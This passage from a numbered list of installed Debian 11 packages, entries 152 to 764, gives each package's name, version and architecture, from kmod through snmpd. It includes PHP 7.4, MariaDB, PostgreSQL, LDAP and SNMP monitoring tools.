152                 kmod_28-1_amd64     
153                 krb5-locales_1.18.3-6+deb11u4_all
154                 laptop-detect_0.16_all
155                 ldap-utils_2.4.57+dfsg-3+deb11u1_amd64
156                 less_551-2_amd64    
157                 lftp_4.8.4-2+b1_amd64
158                 libacl1_2.2.53-10_amd64
159                 libaio1_0.3.112-9_amd64
160                 libalgorithm-diff-perl_1.201-1_all
161                 libalgorithm-diff-xs-perl_0.04-6+b1_amd64
162                 libalgorithm-merge-perl_0.08-3_all
163                 libann0_1.1.2+doc-7_amd64
164                 libapache2-mod-php_2:7.4+76_all
165                 libapache2-mod-php7.4_7.4.33-1+deb11u4_amd64
166                 libapparmor1_2.13.6-10_amd64
167                 libapr1_1.7.0-6+deb11u2_amd64
168                 libaprutil1_1.6.1-5+deb11u1_amd64
169                 libaprutil1-dbd-sqlite3_1.6.1-5+deb11u1_amd64
170                 libaprutil1-ldap_1.6.1-5+deb11u1_amd64
171                 libapt-pkg6.0_2.2.4_amd64
172                 libarchive-cpio-perl_0.10-1.1_all
173                 libarchive-zip-perl_1.68-1_all
174                 libargon2-1_0~20171227-0.2_amd64
175                 libasan6_10.2.1-6_amd64
176                 libasound2_1.2.4-1.1_amd64
177                 libasound2-data_1.2.4-1.1_all
178                 libassuan0_2.5.3-7.1_amd64
179                 libatomic1_10.2.1-6_amd64
180                 libattr1_1:2.4.48-6_amd64
181                 libaudit-common_1:3.0-2_all
182                 libaudit1_1:3.0-2_amd64
183                 libauparse0_1:3.0-2_amd64
184                 libauthen-sasl-perl_2.1600-1.1_all
185                 libbinutils_2.35.2-2_amd64
186                 libblas3_3.9.0-3+deb11u1_amd64
187                 libblkid1_2.36.1-8+deb11u1_amd64
188                 libbpf0_1:0.3-2_amd64
189                 libbrotli-dev_1.0.9-2+b2_amd64
190                 libbrotli1_1.0.9-2+b2_amd64
191                 libbsd0_0.11.3-1+deb11u1_amd64
192                 libbz2-1.0_1.0.8-4_amd64
193                 libc-bin_2.31-13+deb11u7_amd64
194                 libc-client2007e_8:2007f~dfsg-7+b1_amd64
195                 libc-dev-bin_2.31-13+deb11u7_amd64
196                 libc-devtools_2.31-13+deb11u7_amd64
197                 libc-l10n_2.31-13+deb11u7_all
198                 libc6_2.31-13+deb11u7_amd64
199                 libc6-dev_2.31-13+deb11u7_amd64
200                 libcairo2_1.16.0-5_amd64
201                 libcap-ng0_0.7.9-2.2+b1_amd64
202                 libcap2_1:2.44-1_amd64
203                 libcap2-bin_1:2.44-1_amd64
204                 libcbor0_0.5.0+dfsg-2_amd64
205                 libcc1-0_10.2.1-6_amd64
206                 libcdt5_2.42.2-5_amd64
207                 libcgi-fast-perl_1:2.15-1_all
208                 libcgi-pm-perl_4.51-1_all
209                 libcgraph6_2.42.2-5_amd64
210                 libclone-perl_0.45-1+b1_amd64
211                 libcom-err2_1.46.2-2_amd64
212                 libconfig-inifiles-perl_3.000003-1_all
213                 libcrypt-dev_1:4.4.18-4_amd64
214                 libcrypt1_1:4.4.18-4_amd64
215                 libcryptsetup12_2:2.3.7-1+deb11u1_amd64
216                 libctf-nobfd0_2.35.2-2_amd64
217                 libctf0_2.35.2-2_amd64
218                 libcurl3-gnutls_7.74.0-1.3+deb11u11_amd64
219                 libcurl4_7.74.0-1.3+deb11u11_amd64
220                 libcurl4-openssl-dev_7.74.0-1.3+deb11u11_amd64
221                 libdaemon0_0.14-7.1_amd64
222                 libdata-dump-perl_1.23-1.1_all
223                 libdatrie1_0.2.13-1_amd64
224                 libdb5.3_5.3.28+dfsg1-0.8_amd64
225                 libdbd-mysql-perl_4.050-3+b1_amd64
226                 libdbi-perl_1.643-3+b1_amd64
227                 libdbi1_0.9.0-6_amd64
228                 libdbus-1-3_1.12.28-0+deb11u1_amd64
229                 libdebconfclient0_0.260_amd64
230                 libdebhelper-perl_13.3.4_all
231                 libdeflate-dev_1.7-1_amd64
232                 libdeflate0_1.7-1_amd64
233                 libdevmapper1.02.1_2:1.02.175-2.1_amd64
234                 libdigest-bubblebabble-perl_0.02-2.1_all
235                 libdigest-hmac-perl_1.03+dfsg-2.1_all
236                 libdiscover2_2.1.2-8_amd64
237                 libdns-export1110_1:9.11.19+dfsg-2.1_amd64
238                 libdpkg-perl_1.20.13_all
239                 libdrm-common_2.4.104-1_all
240                 libdrm2_2.4.104-1_amd64
241                 libdw1_0.183-1_amd64
242                 libedit2_3.1-20191231-2+b1_amd64
243                 libefiboot1_37-6_amd64
244                 libefivar1_37-6_amd64
245                 libelf1_0.183-1_amd64
246                 libencode-locale-perl_1.05-1.1_all
247                 liberror-perl_0.17029-1_all
248                 libestr0_0.1.10-2.1+b1_amd64
249                 libevent-2.1-7_2.1.12-stable-1_amd64
250                 libevent-core-2.1-7_2.1.12-stable-1_amd64
251                 libevent-pthreads-2.1-7_2.1.12-stable-1_amd64
252                 libexpat1_2.2.10-2+deb11u5_amd64
253                 libexpat1-dev_2.2.10-2+deb11u5_amd64
254                 libext2fs2_1.46.2-2_amd64
255                 libfakeroot_1.25.3-1.1_amd64
256                 libfastjson4_0.99.9-1_amd64
257                 libfcgi-bin_2.4.2-2_amd64
258                 libfcgi-perl_0.79+ds-2_amd64
259                 libfcgi0ldbl_2.4.2-2_amd64
260                 libfdisk1_2.36.1-8+deb11u1_amd64
261                 libffi7_3.3-6_amd64 
262                 libfido2-1_1.6.0-2_amd64
263                 libfile-fcntllock-perl_0.22-3+b7_amd64
264                 libfile-listing-perl_6.14-1_all
265                 libfile-stripnondeterminism-perl_1.12.0-1_all
266                 libfont-afm-perl_1.20-3_all
267                 libfontconfig-dev_2.13.1-4.2_amd64
268                 libfontconfig1_2.13.1-4.2_amd64
269                 libfontenc1_1:1.1.4-1_amd64
270                 libfreetype-dev_2.10.4+dfsg-1+deb11u1_amd64
271                 libfreetype6_2.10.4+dfsg-1+deb11u1_amd64
272                 libfreetype6-dev_2.10.4+dfsg-1+deb11u1_amd64
273                 libfribidi0_1.0.8-2+deb11u1_amd64
274                 libfstrm0_0.6.0-1+b1_amd64
275                 libfuse2_2.9.9-5_amd64
276                 libgc1_1:8.0.4-3_amd64
277                 libgcc-10-dev_10.2.1-6_amd64
278                 libgcc-s1_10.2.1-6_amd64
279                 libgcrypt20_1.8.7-6_amd64
280                 libgcrypt20-dev_1.8.7-6_amd64
281                 libgd-dev_2.3.0-2_amd64
282                 libgd3_2.3.0-2_amd64
283                 libgdbm-compat4_1.19-2_amd64
284                 libgdbm6_1.19-2_amd64
285                 libgfortran5_10.2.1-6_amd64
286                 libglib2.0-0_2.66.8-1_amd64
287                 libglib2.0-data_2.66.8-1_all
288                 libgmp10_2:6.2.1+dfsg-1+deb11u1_amd64
289                 libgnutls-dane0_3.7.1-5+deb11u3_amd64
290                 libgnutls30_3.7.1-5+deb11u3_amd64
291                 libgomp1_10.2.1-6_amd64
292                 libgpg-error-dev_1.38-2_amd64
293                 libgpg-error0_1.38-2_amd64
294                 libgraphite2-3_1.3.14-1_amd64
295                 libgsasl7_1.10.0-4+deb11u1_amd64
296                 libgssapi-krb5-2_1.18.3-6+deb11u4_amd64
297                 libgts-0.7-5_0.7.6+darcs121130-4+b1_amd64
298                 libgts-bin_0.7.6+darcs121130-4+b1_amd64
299                 libgvc6_2.42.2-5_amd64
300                 libgvpr2_2.42.2-5_amd64
301                 libharfbuzz0b_2.7.4-1_amd64
302                 libhogweed6_3.7.3-1_amd64
303                 libhtml-form-perl_6.07-1_all
304                 libhtml-format-perl_2.12-1.1_all
305                 libhtml-parser-perl_3.75-1+b1_amd64
306                 libhtml-tagset-perl_3.20-4_all
307                 libhtml-template-perl_2.97-1.1_all
308                 libhtml-tree-perl_5.07-2_all
309                 libhttp-cookies-perl_6.10-1_all
310                 libhttp-daemon-perl_6.12-1+deb11u1_all
311                 libhttp-date-perl_6.05-1_all
312                 libhttp-message-perl_6.28-1_all
313                 libhttp-negotiate-perl_6.01-1_all
314                 libice-dev_2:1.0.10-1_amd64
315                 libice6_2:1.0.10-1_amd64
316                 libicu67_67.1-7_amd64
317                 libidn11_1.33-3_amd64
318                 libidn2-0_2.3.0-5_amd64
319                 libio-html-perl_1.004-2_all
320                 libio-socket-inet6-perl_2.72-2.1_all
321                 libio-socket-ssl-perl_2.069-1_all
322                 libip4tc2_1.8.7-1_amd64
323                 libip6tc2_1.8.7-1_amd64
324                 libisc-export1105_1:9.11.19+dfsg-2.1_amd64
325                 libisl23_0.23-1_amd64
326                 libitm1_10.2.1-6_amd64
327                 libiw30_30~pre9-13.1_amd64
328                 libjansson4_2.13.1-1.1_amd64
329                 libjbig-dev_2.1-3.1+b2_amd64
330                 libjbig0_2.1-3.1+b2_amd64
331                 libjpeg-dev_1:2.0.6-4_amd64
332                 libjpeg62-turbo_1:2.0.6-4_amd64
333                 libjpeg62-turbo-dev_1:2.0.6-4_amd64
334                 libjq1_1.6-2.1_amd64
335                 libjs-jquery_3.5.1+dfsg+~3.5.5-7_all
336                 libjs-sphinxdoc_3.4.3-2_all
337                 libjs-underscore_1.9.1~dfsg-3_all
338                 libjson-c5_0.15-2+deb11u1_amd64
339                 libk5crypto3_1.18.3-6+deb11u4_amd64
340                 libkeyutils1_1.6.1-2_amd64
341                 libklibc_2.0.8-6.1_amd64
342                 libkmod2_28-1_amd64 
343                 libkrb5-3_1.18.3-6+deb11u4_amd64
344                 libkrb5support0_1.18.3-6+deb11u4_amd64
345                 libksba8_1.5.0-3+deb11u2_amd64
346                 liblab-gamut1_2.42.2-5_amd64
347                 liblapack3_3.9.0-3+deb11u1_amd64
348                 libldap-2.4-2_2.4.57+dfsg-3+deb11u1_amd64
349                 libldap-common_2.4.57+dfsg-3+deb11u1_all
350                 libldap2-dev_2.4.57+dfsg-3+deb11u1_amd64
351                 liblinear4_2.3.0+dfsg-5_amd64
352                 libllvm11_1:11.0.1-2_amd64
353                 liblmdb0_0.9.24-1_amd64
354                 liblocale-gettext-perl_1.07-4+b1_amd64
355                 liblockfile-bin_1.17-1+b1_amd64
356                 liblognorm5_2.0.5-1.1_amd64
357                 liblsan0_10.2.1-6_amd64
358                 libltdl-dev_2.4.6-15_amd64
359                 libltdl7_2.4.6-15_amd64
360                 liblua5.3-0_5.3.3-1.1+deb11u1_amd64
361                 liblwp-mediatypes-perl_6.04-1_all
362                 liblwp-protocol-https-perl_6.10-1_all
363                 liblz4-1_1.9.3-2_amd64
364                 liblzma-dev_5.2.5-2.1~deb11u1_amd64
365                 liblzma5_5.2.5-2.1~deb11u1_amd64
366                 libmagic-mgc_1:5.39-3+deb11u1_amd64
367                 libmagic1_1:5.39-3+deb11u1_amd64
368                 libmail-imapclient-perl_3.42-1_all
369                 libmail-sendmail-perl_0.80-1.1_all
370                 libmailtools-perl_2.21-1_all
371                 libmailutils7_1:3.10-3+b1_amd64
372                 libmariadb-dev_1:10.5.21-0+deb11u1_amd64
373                 libmariadb-dev-compat_1:10.5.21-0+deb11u1_amd64
374                 libmariadb3_1:10.5.21-0+deb11u1_amd64
375                 libmaxminddb0_1.5.2-1_amd64
376                 libmcrypt-dev_2.5.8-3.4+b1_amd64
377                 libmcrypt4_2.5.8-3.4+b1_amd64
378                 libmd0_1.0.3-3_amd64
379                 libmhash2_0.9.9.9-9_amd64
380                 libmnl0_1.0.4-3_amd64
381                 libmount1_2.36.1-8+deb11u1_amd64
382                 libmpc3_1.2.0-1_amd64
383                 libmpdec3_2.5.1-1_amd64
384                 libmpfr6_4.1.0-3_amd64
385                 libmspack0_0.10.1-2_amd64
386                 libncurses6_6.2+20201114-2+deb11u2_amd64
387                 libncursesw6_6.2+20201114-2+deb11u2_amd64
388                 libnet-dns-perl_1.29-1_all
389                 libnet-dns-sec-perl_1.18-1+b1_amd64
390                 libnet-http-perl_6.20-1_all
391                 libnet-ip-perl_1.26-2_all
392                 libnet-libidn-perl_0.12.ds-3+b3_amd64
393                 libnet-smtp-ssl-perl_1.04-1_all
394                 libnet-snmp-perl_6.0.1-6_all
395                 libnet-ssleay-perl_1.88-3+b1_amd64
396                 libnetfilter-conntrack3_1.0.8-3_amd64
397                 libnetsnmptrapd40_5.9+dfsg-4+deb11u1_amd64
398                 libnettle8_3.7.3-1_amd64
399                 libnewt0.52_0.52.21-4+b3_amd64
400                 libnfnetlink0_1.0.1-3+b1_amd64
401                 libnftables1_0.9.8-3.1+deb11u1_amd64
402                 libnftnl11_1.1.9-1_amd64
403                 libnghttp2-14_1.43.0-1+deb11u1_amd64
404                 libnl-3-200_3.4.0-1+b1_amd64
405                 libnl-genl-3-200_3.4.0-1+b1_amd64
406                 libnl-route-3-200_3.4.0-1+b1_amd64
407                 libnpth0_1.6-3_amd64
408                 libnsl-dev_1.3.0-2_amd64
409                 libnsl2_1.3.0-2_amd64
410                 libnss-systemd_247.3-7+deb11u4_amd64
411                 libntlm0_1.6-3_amd64
412                 libodbc1_2.3.6-0.1+b1_amd64
413                 libonig5_6.9.6-1.1_amd64
414                 libopts25_1:5.18.16-4_amd64
415                 libp11-kit0_0.23.22-1_amd64
416                 libpam-modules_1.4.0-9+deb11u1_amd64
417                 libpam-modules-bin_1.4.0-9+deb11u1_amd64
418                 libpam-runtime_1.4.0-9+deb11u1_all
419                 libpam-systemd_247.3-7+deb11u4_amd64
420                 libpam0g_1.4.0-9+deb11u1_amd64
421                 libpango-1.0-0_1.46.2-3_amd64
422                 libpangocairo-1.0-0_1.46.2-3_amd64
423                 libpangoft2-1.0-0_1.46.2-3_amd64
424                 libparse-recdescent-perl_1.967015+dfsg-2_all
425                 libpathplan4_2.42.2-5_amd64
426                 libpcap0.8_1.10.0-2_amd64
427                 libpci-dev_1:3.7.0-5_amd64
428                 libpci3_1:3.7.0-5_amd64
429                 libpcre2-16-0_10.36-2+deb11u1_amd64
430                 libpcre2-32-0_10.36-2+deb11u1_amd64
431                 libpcre2-8-0_10.36-2+deb11u1_amd64
432                 libpcre2-dev_10.36-2+deb11u1_amd64
433                 libpcre2-posix2_10.36-2+deb11u1_amd64
434                 libpcre3_2:8.39-13_amd64
435                 libpcsclite1_1.9.1-1_amd64
436                 libperl4-corelibs-perl_0.004-2_all
437                 libperl5.32_5.32.1-4+deb11u2_amd64
438                 libpipeline1_1.5.3-1_amd64
439                 libpixman-1-0_0.40.0-1.1~deb11u1_amd64
440                 libpng-dev_1.6.37-3_amd64
441                 libpng-tools_1.6.37-3_amd64
442                 libpng16-16_1.6.37-3_amd64
443                 libpopt0_1.18-2_amd64
444                 libpq-dev_13.13-0+deb11u1_amd64
445                 libpq5_13.13-0+deb11u1_amd64
446                 libprocps8_2:3.3.17-5_amd64
447                 libprotobuf-c1_1.3.3-1+b2_amd64
448                 libpsl5_0.21.0-1.2_amd64
449                 libpthread-stubs0-dev_0.4-1_amd64
450                 libpython3-dev_3.9.2-3_amd64
451                 libpython3-stdlib_3.9.2-3_amd64
452                 libpython3.9_3.9.2-1_amd64
453                 libpython3.9-dev_3.9.2-1_amd64
454                 libpython3.9-minimal_3.9.2-1_amd64
455                 libpython3.9-stdlib_3.9.2-1_amd64
456                 libquadmath0_10.2.1-6_amd64
457                 libreadline8_8.1-1_amd64
458                 librrd8_1.7.2-3+b7_amd64
459                 librrds-perl_1.7.2-3+b7_amd64
460                 librtmp1_2.4+20151223.gitfa8646d.1-2+b2_amd64
461                 libsasl2-2_2.1.27+dfsg-2.1+deb11u1_amd64
462                 libsasl2-modules_2.1.27+dfsg-2.1+deb11u1_amd64
463                 libsasl2-modules-db_2.1.27+dfsg-2.1+deb11u1_amd64
464                 libseccomp2_2.5.1-1+deb11u1_amd64
465                 libselinux1_3.1-3_amd64
466                 libsemanage-common_3.1-1_all
467                 libsemanage1_3.1-1+b2_amd64
468                 libsensors-config_1:3.6.0-7_all
469                 libsensors-dev_1:3.6.0-7_amd64
470                 libsensors5_1:3.6.0-7_amd64
471                 libsepol1_3.1-1_amd64
472                 libserf-1-1_1.3.9-10_amd64
473                 libsigsegv2_2.13-1_amd64
474                 libslang2_2.3.2-5_amd64
475                 libsm-dev_2:1.2.3-1_amd64
476                 libsm6_2:1.2.3-1_amd64
477                 libsmartcols1_2.36.1-8+deb11u1_amd64
478                 libsnappy1v5_1.1.8-1_amd64
479                 libsnmp-base_5.9+dfsg-4+deb11u1_all
480                 libsnmp-dev_5.9+dfsg-4+deb11u1_amd64
481                 libsnmp-perl_5.9+dfsg-4+deb11u1_amd64
482                 libsnmp-session-perl_1.14~git20201002.0dedded-1_all
483                 libsnmp40_5.9+dfsg-4+deb11u1_amd64
484                 libsocket6-perl_0.29-1+b3_amd64
485                 libsodium23_1.0.18-1_amd64
486                 libsqlite3-0_3.34.1-3_amd64
487                 libss2_1.46.2-2_amd64
488                 libssh2-1_1.9.0-2_amd64
489                 libssh2-1-dev_1.9.0-2_amd64
490                 libssl-dev_1.1.1w-0+deb11u1_amd64
491                 libssl1.1_1.1.1w-0+deb11u1_amd64
492                 libstdc++-10-dev_10.2.1-6_amd64
493                 libstdc++6_10.2.1-6_amd64
494                 libsub-override-perl_0.09-2_all
495                 libsvn1_1.14.1-3+deb11u1_amd64
496                 libsybdb5_1.2.3-1_amd64
497                 libsys-hostname-long-perl_1.5-2_all
498                 libsystemd0_247.3-7+deb11u4_amd64
499                 libtasn1-6_4.16.0-2+deb11u1_amd64
500                 libterm-readkey-perl_2.38-1+b2_amd64
501                 libtext-charwidth-perl_0.04-10+b1_amd64
502                 libtext-iconv-perl_1.7-7+b1_amd64
503                 libtext-wrapi18n-perl_0.06-9_all
504                 libthai-data_0.1.28-3_all
505                 libthai0_0.1.28-3_amd64
506                 libtiff-dev_4.2.0-1+deb11u5_amd64
507                 libtiff5_4.2.0-1+deb11u5_amd64
508                 libtiffxx5_4.2.0-1+deb11u5_amd64
509                 libtimedate-perl_2.3300-2_all
510                 libtinfo6_6.2+20201114-2+deb11u2_amd64
511                 libtirpc-common_1.3.1-1+deb11u1_all
512                 libtirpc-dev_1.3.1-1+deb11u1_amd64
513                 libtirpc3_1.3.1-1+deb11u1_amd64
514                 libtool_2.4.6-15_all
515                 libtry-tiny-perl_0.30-1_all
516                 libtsan0_10.2.1-6_amd64
517                 libubsan1_10.2.1-6_amd64
518                 libuchardet0_0.0.7-1_amd64
519                 libudev-dev_247.3-7+deb11u4_amd64
520                 libudev1_247.3-7+deb11u4_amd64
521                 libunbound8_1.13.1-1+deb11u1_amd64
522                 libunistring2_0.9.10-4_amd64
523                 liburi-perl_5.08-1_all
524                 libusb-0.1-4_2:0.1.12-32_amd64
525                 libusb-1.0-0_2:1.0.24-3_amd64
526                 libutf8proc2_2.5.0-1_amd64
527                 libuuid1_2.36.1-8+deb11u1_amd64
528                 libuv1_1.40.0-2_amd64
529                 libvpx-dev_1.9.0-1+deb11u2_amd64
530                 libvpx6_1.9.0-1+deb11u2_amd64
531                 libwebp6_0.6.1-2.1+deb11u2_amd64
532                 libwrap0_7.6.q-31_amd64
533                 libwrap0-dev_7.6.q-31_amd64
534                 libwww-perl_6.52-1_all
535                 libwww-robotrules-perl_6.02-1_all
536                 libx11-6_2:1.7.2-1+deb11u2_amd64
537                 libx11-data_2:1.7.2-1+deb11u2_all
538                 libx11-dev_2:1.7.2-1+deb11u2_amd64
539                 libxau-dev_1:1.0.9-1_amd64
540                 libxau6_1:1.0.9-1_amd64
541                 libxaw7_2:1.0.13-1.1_amd64
542                 libxcb-render0_1.14-3_amd64
543                 libxcb-shm0_1.14-3_amd64
544                 libxcb1_1.14-3_amd64
545                 libxcb1-dev_1.14-3_amd64
546                 libxdmcp-dev_1:1.1.2-3_amd64
547                 libxdmcp6_1:1.1.2-3_amd64
548                 libxext6_2:1.3.3-1.1_amd64
549                 libxml-parser-perl_2.46-2_amd64
550                 libxml2_2.9.10+dfsg-6.7+deb11u4_amd64
551                 libxmlsec1_1.2.31-1_amd64
552                 libxmlsec1-openssl_1.2.31-1_amd64
553                 libxmu6_2:1.1.2-2+b3_amd64
554                 libxmuu1_2:1.1.2-2+b3_amd64
555                 libxpm-dev_1:3.5.12-1.1+deb11u1_amd64
556                 libxpm4_1:3.5.12-1.1+deb11u1_amd64
557                 libxrender1_1:0.9.10-1_amd64
558                 libxslt1.1_1.1.34-4+deb11u1_amd64
559                 libxt-dev_1:1.2.0-1_amd64
560                 libxt6_1:1.2.0-1_amd64
561                 libxtables12_1.8.7-1_amd64
562                 libxxhash0_0.8.0-2_amd64
563                 libyaml-0-2_0.2.2-1_amd64
564                 libz3-4_4.8.10-1_amd64
565                 libzstd1_1.4.8+dfsg-2.1_amd64
566                 linux-base_4.6_all  
567                 linux-image-5.10.0-27-amd64_5.10.205-2_amd64
568                 linux-image-amd64_5.10.205-2_amd64
569                 linux-libc-dev_5.10.205-2_amd64
570                 locales_2.31-13+deb11u7_all
571                 login_1:4.8.1-1_amd64
572                 logrotate_3.18.0-2+deb11u2_amd64
573                 logsave_1.46.2-2_amd64
574                 lsb-base_11.1.0_all 
575                 lsb-release_11.1.0_all
576                 lsof_4.93.2+dfsg-1.1_amd64
577                 lua-lpeg_1.0.2-1_amd64
578                 m4_1.4.18-5_amd64   
579                 mailcap_3.69_all    
580                 mailutils_1:3.10-3+b1_amd64
581                 mailutils-common_1:3.10-3_all
582                 make_4.3-4.1_amd64  
583                 man-db_2.9.4-2_amd64
584                 manpages_5.10-1_all 
585                 manpages-dev_5.10-1_all
586                 mariadb-client-10.5_1:10.5.21-0+deb11u1_amd64
587                 mariadb-client-core-10.5_1:10.5.21-0+deb11u1_amd64
588                 mariadb-common_1:10.5.21-0+deb11u1_all
589                 mariadb-server_1:10.5.21-0+deb11u1_all
590                 mariadb-server-10.5_1:10.5.21-0+deb11u1_amd64
591                 mariadb-server-core-10.5_1:10.5.21-0+deb11u1_amd64
592                 mawk_1.3.4.20200120-2_amd64
593                 mcrypt_2.6.8-4_amd64
594                 media-types_4.0.0_all
595                 mime-support_3.66_all
596                 mlock_8:2007f~dfsg-7+b1_amd64
597                 mount_2.36.1-8+deb11u1_amd64
598                 mrtg_2.17.7-2+deb11u1_amd64
599                 mysql-common_5.8+1.0.7_all
600                 nano_5.4-2+deb11u2_amd64
601                 ncurses-base_6.2+20201114-2+deb11u2_all
602                 ncurses-bin_6.2+20201114-2+deb11u2_amd64
603                 ncurses-term_6.2+20201114-2+deb11u2_all
604                 net-tools_1.60+git20181103.0eebece-1_amd64
605                 netbase_6.3_all     
606                 netcat-traditional_1.10-46_amd64
607                 nftables_0.9.8-3.1+deb11u1_amd64
608                 nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64
609                 nmap-common_7.91+dfsg1+really7.80+dfsg1-2_all
610                 ntp_1:4.2.8p15+dfsg-1_amd64
611                 open-vm-tools_2:11.2.5-2+deb11u3_amd64
612                 openssh-client_1:8.4p1-5+deb11u3_amd64
613                 openssh-server_1:8.4p1-5+deb11u3_amd64
614                 openssh-sftp-server_1:8.4p1-5+deb11u3_amd64
615                 openssl_1.1.1w-0+deb11u1_amd64
616                 os-prober_1.79_amd64
617                 passwd_1:4.8.1-1_amd64
618                 patch_2.7.6-7_amd64 
619                 pci.ids_0.0~2021.02.08-1_all
620                 pciutils_1:3.7.0-5_amd64
621                 perl_5.32.1-4+deb11u2_amd64
622                 perl-base_5.32.1-4+deb11u2_amd64
623                 perl-modules-5.32_5.32.1-4+deb11u2_all
624                 perl-openssl-defaults_5_amd64
625                 php_2:7.4+76_all    
626                 php-common_2:76_all 
627                 php-composer-ca-bundle_1.2.9-1_all
628                 php-composer-semver_3.2.4-2_all
629                 php-composer-spdx-licenses_1.5.5-2_all
630                 php-composer-xdebug-handler_1.4.5-1_all
631                 php-curl_2:7.4+76_all
632                 php-dev_2:7.4+76_all
633                 php-gd_2:7.4+76_all 
634                 php-imap_2:7.4+76_all
635                 php-intl_2:7.4+76_all
636                 php-json-schema_5.2.10-2_all
637                 php-ldap_2:7.4+76_all
638                 php-mbstring_2:7.4+76_all
639                 php-mysql_2:7.4+76_all
640                 php-pear_1:1.10.12+submodules+notgz+20210212-1_all
641                 php-pgsql_2:7.4+76_all
642                 php-psr-container_1.0.0-2_all
643                 php-psr-log_1.1.3-2_all
644                 php-react-promise_2.7.0-2_all
645                 php-snmp_2:7.4+76_all
646                 php-sqlite3_2:7.4+76_all
647                 php-ssh2_1.2+0.13-4_amd64
648                 php-sybase_2:7.4+76_all
649                 php-symfony-console_4.4.19+dfsg-2+deb11u3_all
650                 php-symfony-filesystem_4.4.19+dfsg-2+deb11u3_all
651                 php-symfony-finder_4.4.19+dfsg-2+deb11u3_all
652                 php-symfony-polyfill-php80_1.22.1-1_all
653                 php-symfony-process_4.4.19+dfsg-2+deb11u3_all
654                 php-symfony-service-contracts_1.1.10-2_all
655                 php-xml_2:7.4+76_all
656                 php7.4_7.4.33-1+deb11u4_all
657                 php7.4-cli_7.4.33-1+deb11u4_amd64
658                 php7.4-common_7.4.33-1+deb11u4_amd64
659                 php7.4-curl_7.4.33-1+deb11u4_amd64
660                 php7.4-dev_7.4.33-1+deb11u4_amd64
661                 php7.4-gd_7.4.33-1+deb11u4_amd64
662                 php7.4-imap_7.4.33-1+deb11u4_amd64
663                 php7.4-intl_7.4.33-1+deb11u4_amd64
664                 php7.4-json_7.4.33-1+deb11u4_amd64
665                 php7.4-ldap_7.4.33-1+deb11u4_amd64
666                 php7.4-mbstring_7.4.33-1+deb11u4_amd64
667                 php7.4-mysql_7.4.33-1+deb11u4_amd64
668                 php7.4-opcache_7.4.33-1+deb11u4_amd64
669                 php7.4-pgsql_7.4.33-1+deb11u4_amd64
670                 php7.4-readline_7.4.33-1+deb11u4_amd64
671                 php7.4-snmp_7.4.33-1+deb11u4_amd64
672                 php7.4-sqlite3_7.4.33-1+deb11u4_amd64
673                 php7.4-sybase_7.4.33-1+deb11u4_amd64
674                 php7.4-xml_7.4.33-1+deb11u4_amd64
675                 pinentry-curses_1.1.0-4_amd64
676                 pkg-config_0.29.2-1_amd64
677                 pkg-php-tools_1.40_all
678                 po-debconf_1.0.21+nmu1_all
679                 postgresql_13+225_all
680                 postgresql-13_13.13-0+deb11u1_amd64
681                 postgresql-client-13_13.13-0+deb11u1_amd64
682                 postgresql-client-common_225_all
683                 postgresql-common_225_all
684                 postgresql-contrib_13+225_all
685                 powertop_2.11-1_amd64
686                 procps_2:3.3.17-5_amd64
687                 psmisc_23.4-2_amd64 
688                 publicsuffix_20220811.1734-0+deb11u1_all
689                 python-apt-common_2.2.1_all
690                 python-pip-whl_20.3.4-4+deb11u1_all
691                 python3_3.9.2-3_amd64
692                 python3-apt_2.2.1_amd64
693                 python3-argcomplete_1.8.1-1.5_all
694                 python3-bs4_4.9.3-1_all
695                 python3-certifi_2020.6.20-1_all
696                 python3-cffi-backend_1.14.5-1_amd64
697                 python3-chardet_4.0.0-1_all
698                 python3-cryptography_3.3.2-1_amd64
699                 python3-debconf_1.5.77_all
700                 python3-debian_0.1.39_all
701                 python3-debianbts_3.1.0_all
702                 python3-dev_3.9.2-3_amd64
703                 python3-distutils_3.9.2-1_all
704                 python3-dnspython_2.0.0-1_all
705                 python3-html5lib_1.1-3_all
706                 python3-httplib2_0.18.1-3_all
707                 python3-idna_2.10-1_all
708                 python3-jinja2_2.11.3-1_all
709                 python3-jmespath_0.10.0-1_all
710                 python3-kerberos_1.1.14-3.1+b3_amd64
711                 python3-lib2to3_3.9.2-1_all
712                 python3-libcloud_3.2.0-2_all
713                 python3-lockfile_1:0.12.2-2.2_all
714                 python3-lxml_4.6.3+dfsg-0.1+deb11u1_amd64
715                 python3-markupsafe_1.1.1-1+b3_amd64
716                 python3-minimal_3.9.2-3_amd64
717                 python3-netaddr_0.7.19-5_all
718                 python3-ntlm-auth_1.4.0-1_all
719                 python3-numpy_1:1.19.5-1_amd64
720                 python3-packaging_20.9-2_all
721                 python3-pip_20.3.4-4+deb11u1_all
722                 python3-pkg-resources_52.0.0-4_all
723                 python3-pycryptodome_3.9.7+dfsg1-1+b2_amd64
724                 python3-pycurl_7.43.0.6-5_amd64
725                 python3-pymssql_2.1.4+dfsg-3+b3_amd64
726                 python3-pyparsing_2.4.7-1_all
727                 python3-pysimplesoap_1.16.2-3_all
728                 python3-reportbug_7.10.3+deb11u1_all
729                 python3-requests_2.25.1+dfsg-2_all
730                 python3-requests-kerberos_0.12.0-2_all
731                 python3-requests-ntlm_1.1.0-1.1_all
732                 python3-requests-toolbelt_0.9.1-1_all
733                 python3-rrdtool_1.7.2-3+b7_amd64
734                 python3-selinux_3.1-3_amd64
735                 python3-setuptools_52.0.0-4_all
736                 python3-simplejson_3.17.2-1_amd64
737                 python3-six_1.16.0-2_all
738                 python3-soupsieve_2.2.1-1_all
739                 python3-urllib3_1.26.5-1~exp1_all
740                 python3-webencodings_0.5.1-2_all
741                 python3-wheel_0.34.2-1_all
742                 python3-winrm_0.3.0-2_all
743                 python3-xmltodict_0.12.0-2_all
744                 python3-yaml_5.3.1-5_amd64
745                 python3.9_3.9.2-1_amd64
746                 python3.9-dev_3.9.2-1_amd64
747                 python3.9-minimal_3.9.2-1_amd64
748                 readline-common_8.1-1_all
749                 reportbug_7.10.3+deb11u1_all
750                 rrdtool_1.7.2-3+b7_amd64
751                 rsync_3.2.3-4+deb11u1_amd64
752                 rsyslog_8.2102.0-2+deb11u1_amd64
753                 runit-helper_2.10.3_all
754                 scons_4.0.1+dfsg-2_all
755                 sed_4.7-1_amd64     
756                 sensible-utils_0.0.14_all
757                 shared-mime-info_2.0-1_amd64
758                 shellinabox_2.21+b1_amd64
759                 shtool_2.0.8-10_all 
760                 slapd_2.4.57+dfsg-3+deb11u1_amd64
761                 smistrip_0.4.8+dfsg2-16_all
762                 snmp_5.9+dfsg-4+deb11u1_amd64
763                 snmp-mibs-downloader_1.5_all
764                 snmpd_5.9+dfsg-4+deb11u1_amd64
